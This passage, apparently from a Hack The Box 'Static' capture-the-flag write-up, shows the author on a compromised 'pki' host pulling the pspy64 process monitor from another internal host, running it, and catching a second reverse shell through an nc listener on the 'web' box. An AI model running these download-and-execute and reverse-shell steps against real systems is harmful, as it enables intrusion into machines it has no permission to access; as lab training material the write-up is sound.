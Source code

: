 Now we can use that function:

```text
www-data@pki:/tmp$ _get http://192.168.254.2:8000/pspy64 > pspy64
_get http://192.168.254.2:8000/pspy64 > pspy64

www-data@pki:/tmp$ ls -lsa p*
ls -lsa p*
3008 -rw-r--r-- 1 www-data www-data 3078592 Nov  6 20:47 pspy64

www-data@pki:/tmp$ chmod +x pspy64
```

## Pspy64

So we have pspy64 copied across and made it executable, now we run it so it watches what we are doing:

```text
www-data@pki:/tmp$ ./pspy64
./pspy64
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855

     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scannning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...done
```

While pspy64 is watching we need another session to the pki box so we can interact with the ersatool. Just repeat the same process above to base64 and URL encode you're payload, then use the exploit on the web box again to trigger the remote command execution. I used port 1338 for this second connection to the pki box as the first one running pspy64 was on port 1337:

```text
┌──(root💀kali)-[~/htb/static]
└─# ssh -i id_rsa www-data@10.10.10.246 -p 2222
Last login: Sat Nov  6 21:56:12 2021 from 10.10.15.41

www-data@web:~$ cd /tmp
www-data@web:/tmp$ ./nc -nlvp 1338
listening on [any] 1338 ...
connect to [192.168.254.2] from (UNKNOWN) [192.168.254.3] 50620
bash: cannot set terminal process group (16): Inappropriate ioctl for device
bash: no job control in this shell
www-data@pki:/tmp$
```
